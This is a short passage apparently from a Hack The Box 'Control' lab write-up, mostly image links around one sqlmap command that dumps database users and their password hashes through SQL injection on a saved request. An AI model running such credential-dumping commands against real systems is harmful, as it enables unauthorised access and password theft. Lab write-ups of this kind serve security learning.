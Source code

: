 product_category table

![image.png](/assets/Images/HTB_Control/image%2013.png)

Dumping the users and there password hashes

```bash
sqlmap -r products.req --risk 3 --level 4 --batch --dump --passwords
```

![image.png](/assets/Images/HTB_Control/image%2014.png)
